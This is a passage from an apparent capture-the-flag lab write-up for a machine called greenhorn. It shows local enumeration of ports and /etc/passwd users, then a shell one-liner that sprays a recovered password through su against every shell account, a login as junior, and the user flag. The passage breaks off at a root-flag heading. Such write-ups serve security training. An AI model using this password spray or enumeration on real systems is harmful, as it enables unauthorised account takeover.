 
### Situation awareness

- Mysql is running

```bash
www-data@greenhorn:~/html/pluck/data/modules/oclvfgln$ ss -ltnp
State              Recv-Q             Send-Q                         Local Address:Port                         Peer Address:Port            Process
LISTEN             0                  511                                  0.0.0.0:80                                0.0.0.0:*                users:(("nginx",pid=1026,fd=6),("nginx",pid=1025,fd=6))
LISTEN             0                  128                                  0.0.0.0:22                                0.0.0.0:*
LISTEN             0                  80                                 127.0.0.1:3306                              0.0.0.0:*
LISTEN             0                  4096                           127.0.0.53%lo:53                                0.0.0.0:*
LISTEN             0                  4096                                       *:3000                                    *:*
LISTEN             0                  128                                     [::]:22                                   [::]:*
```

- `junior` is the only normal user

```bash
www-data@greenhorn:~/html$ for u in $(cat /etc/passwd | grep sh$ | cut -d":" -f1 2>/dev/null);do id $u;done 2>/dev/null | sort -unt '=' -k2
uid=0(root) gid=0(root) groups=0(root)
uid=114(git) gid=120(git) groups=120(git)
uid=1000(junior) gid=1000(junior) groups=1000(junior)
```

### Password spray

```bash
www-data@greenhorn:~/html$ PASS='iloveyou1'; for USER in $(cat /etc/passwd|grep sh$|awk -F: '{print $1}'); do (x=$(echo $PASS | su $USER -c whoami); if [ "$x" ]; then echo "[+] $USER"; fi) & done
[1] 63604
[2] 63605
[3] 63606
www-data@greenhorn:~/html$ Password: Password: Password: [+] junior
```

```bash
www-data@greenhorn:~/html$ su - junior
Password:iloveyou1
junior@greenhorn:~$ id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
junior@greenhorn:~$ cat user.txt
64df2416fc2c710b183dcf80ca83ac8e
```

# Root Flag
---
